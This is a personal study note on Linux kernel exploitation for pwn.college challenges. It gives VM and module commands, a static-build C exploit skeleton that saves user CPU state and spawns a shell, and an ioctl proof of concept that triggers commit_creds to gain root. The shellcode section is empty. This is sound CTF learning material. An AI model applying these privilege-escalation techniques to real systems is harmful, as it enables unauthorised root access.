







# Kernel Security Notes

so in pwn.clg all modules are in /challenge.

- we can start the challenge by doing `vm start` and then `vm connect`.

- everything else depends on the challenge itself.

- if ur in sudo mode, u can vm start adn then `vm connect` and then do `dmesg` to see kernel logs easily to find out more about thhe module itslef.

- insmod <module_name> to insert the module into the kernel.

- to check if the module is inserted, do `lsmod` and check if the module is listed.

- to look at memory maps of the process, do `cat /proc/<pid>/maps` where pid is the process id of the module.

- do `cat /proc/kallsyms` to see the kernel symbols and their addresses.

- rmmod <module_name> to remove the module from the kernel.

- to get pid of the module, do `ps aux | grep <module_name>` and get the pid of the process.


# writing exploits in c.


- we need to statically compile anything we write, we can use musl-gcc or gcc with -static flag to do that.

commands : 
```
gcc -static -o exploit exploit.c
OR
musl-gcc -static main.c -o my_app

```

## Cool Skeleton 
```c
// kpwn exploit skeleton
// Build: make
// Copy/repack/run: ../rebuild.sh && ../run.sh

#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define DEV_PATH "/dev/vuln"

static unsigned long user_cs, user_ss, user_rflags, user_sp;

static void save_state(void) {
    __asm__ volatile(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %2\n"
        "pushfq\n"
        "popq %3\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_sp), "=r"(user_rflags)
        :
        : "memory"
    );
    puts("!! saved userland CPU state");
}

static void win(void) {
    puts("!! returned to userland");
    //system("id");
    execl("/bin/sh", "sh", NULL);
    perror("execl");
}

static void hexdump(const void *data, size_t len) {
    const unsigned char *p = data;
    for (size_t i = 0; i < len; i += 16) {
        printf("%04zx: ", i);
        for (size_t j = 0; j < 16 && i + j < len; j++) {
            printf("%02x ", p[i + j]);
        }
        puts("");
    }
}

int main(void) {
    save_state();

    puts("skeleton running");

    int fd = open(DEV_PATH, O_RDWR);
    if (fd < 0) {
        perror("open " DEV_PATH);
        puts("[!] edit DEV_PATH after finding the real device/proc interface");
     
        return 1;
    }

    puts("opened device");


    char buf[0x100];
    memset(buf, 'A', sizeof(buf));

    ssize_t n = read(fd, buf, sizeof(buf));
    if (n > 0) {
        printf("read %zd bytes\n", n);
        hexdump(buf, (size_t)n);
    } else {
        printf("read returned %zd, errno=%d\n", n, errno);
    }

    close(fd);
    puts("done");
    return 0;
}
```

- You can use this skeleton to write expl.
- modify dev path to the device u wnat to interact with


## interaction with kernel modules 

- we can interact with the modules using 'c' interfaces for syscalls which is basically anyways a wrapper around the syscall inst.

- typically the modules open a device file in /proc or /dev and then it exposes some handlers in .fops struct which is basically a struct of function pointers which are called when the user calls read/write/ioctl on the device file.

- so like above we can use syscalls like open to get the fd of the dev file and then use interaction handlers like read, write and ioctl to interact with the module.

- so most ppl have worked with read and write before but ioctl is new atleast to most of you.

- https://man7.org/linux/man-pages/man2/ioctl.2.html




- remmember what lib ur using to compile statically (better nad mostly mandatory).

- typically, ioctl takes fd (like write and read) and 2nd arg is a request code which is basically a number which is used to identify the handler in the .fops struct and then 3rd arg is a pointer to some data which is passed to the handler.

- for ioctl, u should disassemble  to see which request code is used for which handler and what data is passed to it and the registers used to pass the vals to the handler.
- tbf looking at the registers lets us know what to pass to the ioctl syscall anyways.
- not documenting trivial stuff, go learn how syscalls work.

---
# some useful assembly instructions




- this is the x = prepare_kernel_cred(0) and then commit_kenel_cred(x) sequence which gives our proc root.





think about the call seq on ur own.

but lets have a poc :

- lets say kaslr is OFF, and our ioctl handler lets us call any function in the kernell by passing a ptr in the 3rd arg.


```c
__int64 __fastcall device_ioctl(file *file, unsigned int cmd, void (__fastcall *arg)(void *, file *))
{
  __int64 result; // rax

  printk(&unk_BC8);
  result = -1LL;
  if ( cmd == 1337 )
  {
    arg(&unk_BC8, file);
    return 0LL;
  }
  return result;
}
```

- ill save ur time and tell u there is a win function that does the commit creds for us, and we can call it like this : 

```c
char buf[0x100];
memset(buf, 'A', sizeof(buf));
unsigned long l = 0xffffffffc0000b5d;
ssize_t p = ioctl(fd, 1337, l);
```

so if we put a bp at win ideally we should hit the bp. lemme show u.



look at ts, we hit the exact addr of variable `l`.

- we can map each of the two calls and one jmp into kernel function calls.


first call does the printk (use dmesg to see out), 2nd prep(0), 3rd jump commits that prep.



---


## Kernel Shellcodes :

- yea we just emulate the "win function", not that deep tbh, same as userspace, ill just give some ss and the shellcode snippet for this poc: 


```c

```


